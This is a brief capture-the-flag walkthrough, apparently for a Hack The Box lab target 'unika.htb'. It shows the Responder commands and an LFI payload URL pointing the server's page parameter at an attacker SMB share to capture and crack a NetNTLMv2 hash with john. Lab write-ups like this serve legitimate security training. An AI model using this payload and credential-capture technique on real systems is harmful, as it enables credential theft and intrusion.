



Responder is a tool used to getting the NTLMv2 Hash during a samba request made to the server having LFI (Even if RFI is not active)
Source: https://github.com/lgandx/Responder
Config File : /etc/responder/Responder.conf
Verify that the Responder.conf is set to listen for SMB requests.

python3 Responder.py -I tun0
OR
responder -I tun0

Once the Responder is listening,
With the Responder server ready, we tell the server to include a resource from our SMB server by setting
the page parameter as follows via the web browser.
http://unika.htb/?page=//10.10.16.16/somefile
In this case, because we have the freedom to specify the address for the SMB share, we specify the IP
address of our attacking machine. Now the server tries to load the resource from our SMB server, and
Responder captures enough of that to get the NetNTLMv2.
Note: Make sure to add http:// in the address as some browsers might opt for a Google search instead of
navigating to the appropriate page.
After sending our payload through the web browser we get an error about not being able to load the
requested file.

Now echo the hash to a file and crack with john.